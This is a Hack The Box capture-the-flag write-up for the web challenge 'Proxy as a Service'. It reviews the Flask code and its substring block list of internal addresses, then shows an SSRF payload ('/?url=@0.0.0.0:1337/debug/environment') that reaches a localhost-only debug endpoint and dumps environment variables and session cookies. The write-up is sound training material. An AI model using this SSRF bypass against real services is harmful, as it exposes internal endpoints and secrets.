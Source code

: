 ```yaml
---
title: Proxy as a Service - Hack The Box
date: 2024-11-24
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Proxy as a Service

![Proxy as a Service - thumbnail](/ctf/hack-the-box/challenges/web/proxy-as-a-service/thumbnail.png)

## Challenge description

Experience the freedom of the web with ProxyAsAService. Because online privacy and access should be for everyone,
everywhere.

## Challenge Overview

The challenge presents a web application that acts as a proxy service. Users can input subreddit paths, and the
application fetches and displays the corresponding content.

## Code Review

### Dockerfile

The application’s `Dockerfile` reveals that the `FLAG` is stored as an environment variable:

```Dockerfile
ENV FLAG=HTB{f4k3_fl4g_f0r_t3st1ng}
```

### routes.py

The key functionality resides in the `routes.py` file. There are two primary endpoints to consider:

#### 1. `/debug/environment`

This endpoint exposes all environment variables, including the `FLAG`. However, access is restricted by the
`is_from_localhost` decorator, which ensures that only requests from `127.0.0.1` can reach this endpoint.

```python
@debug.route('/environment', methods=['GET'])
@is_from_localhost
def debug_environment():
    environment_info = {
        'Environment variables': dict(os.environ),
        'Request headers': dict(request.headers)
    }
    return jsonify(environment_info)
```

#### 2. `/`

This endpoint proxies requests to subreddits. It takes a `url` parameter and appends it to the target URL. The request
is then processed by the `proxy_req` function:

```python
@proxy_api.route('/', methods=['GET', 'POST'])
def proxy():
    url = request.args.get('url')

    if not url:
        cat_meme_subreddits = [
            '/r/cats/',
            '/r/catpictures',
            '/r/catvideos/'
        ]
        random_subreddit = random.choice(cat_meme_subreddits)
        return redirect(url_for('.proxy', url=random_subreddit))
    
    target_url = f'http://{SITE_NAME}{url}'
    response, headers = proxy_req(target_url)

    return Response(response.content, response.status_code, headers.items())
```

This endpoint interacts with the `proxy_req` function, which applies two restrictions:

- The request must pass the `is_safe_url` check.
- The response URL must also pass the `is_safe_url` check.

### Key Restrictions

#### `is_from_localhost` Decorator

```python
def is_from_localhost(func):
    @functools.wraps(func)
    def check_ip(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return abort(403)
        return func(*args, **kwargs)
    return check_ip
```

This decorator verifies that the `request.remote_addr` is `127.0.0.1`. Requests from any other IP are forbidden.

#### `is_safe_url` Function

```python
RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']
def is_safe_url(url):
    for restricted_url in RESTRICTED_URLS:
        if restricted_url in url:
            return False
    return True
```

The `is_safe_url` function checks the URL against a list of restricted substrings (`RESTRICTED_URLS`). If a restricted
substring is found, the request is blocked.

## Exploitation

### Objective

To retrieve the `FLAG`, we must access the `/debug/environment` endpoint. This requires bypassing:

1. The `is_from_localhost` decorator.
2. The `is_safe_url` check enforced by `proxy_req`.

### Bypassing `is_from_localhost`

The `is_from_localhost` decorator validates the `remote_addr` field of the incoming request. Since we cannot spoof our
IP address directly, we use the proxy mechanism to send a request to `127.0.0.1` indirectly.

### Bypassing `is_safe_url`

The `is_safe_url` function prevents direct access to restricted URLs. However, we can exploit the way the `url`
parameter is appended to `SITE_NAME`. By crafting a URL with the format:

```
@0.0.0.0:1337/debug/environment
```

This payload works because:

1. The `@` symbol in URLs is interpreted as authentication information, allowing us to bypass URL validation.
2. The `SITE_NAME` variable prepends the hostname (`http://`) before appending the payload, effectively transforming the
   final URL into:

```
http://0.0.0.0:1337/debug/environment
```

This bypasses the restrictions in `is_safe_url` while routing the request to `127.0.0.1`.

### Payload

To execute the exploit, we send the following request:

```
/?url=@0.0.0.0:1337/debug/environment
```

### Result

The response includes the environment variables, including the `FLAG`:

```json
{
    "Environment variables": {
        "FLAG": "HTB{f4k3_fl4g_f0r_t3st1ng}",
        "GPG_KEY": "7169605F62C751356D054A26A821E680E5FA6305",
        "HOME": "/root",
        "HOSTNAME": "a4bfb5eead77",
        "PATH": "/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
        "PYTHONDONTWRITEBYTECODE": "1",
        "PYTHON_SHA256": "086de5882e3cb310d4dca48457522e2e48018ecd43da9cdf827f6a0759efb07d",
        "PYTHON_VERSION": "3.13.0",
        "SUPERVISOR_ENABLED": "1",
        "SUPERVISOR_GROUP_NAME": "flask",
        "SUPERVISOR_PROCESS_NAME": "flask",
        "TERM": "xterm",
        "WERKZEUG_SERVER_FD": "3"
    },
    "Request headers": {
        "Accept": "*/*",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "keep-alive",
        "Cookie": "JSESSIONID=8530BE014E3829AD1C9CA27C9DBFA3F7; eu_cookie={%22opted%22:true%2C%22nonessential%22:true}; session=eyJjc3JmX3Rva2VuIjoiNzY3NDgzOTAyOTgzZWU5ZjY0YzNlNWIyZWM3MTJiZTNkN2E0Mzg0ZSJ9.Zz3ZSA.iRjAZ3aMVfDhnx6uYyQ8jpO5edY",
        "Host": "0.0.0.0:1337",
        "User-Agent": "python-requests/2.32.3"
    }
}
```

We successfully retrieved the fake flag `HTB{f4k3_fl4g_f0r_t3st1ng}`.
We can now use the same technique to retrieve the real flag on the HTB server.

<ChallengeCard
    challengeType="web"
    challengeName="ProxyAsAService"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/549"
/>

## References

- [Flask Documentation](https://flask.palletsprojects.com/en/stable/)
- [Python function wrappers](https://docs.python.org/fr/3/library/functools.html#functools.wraps)
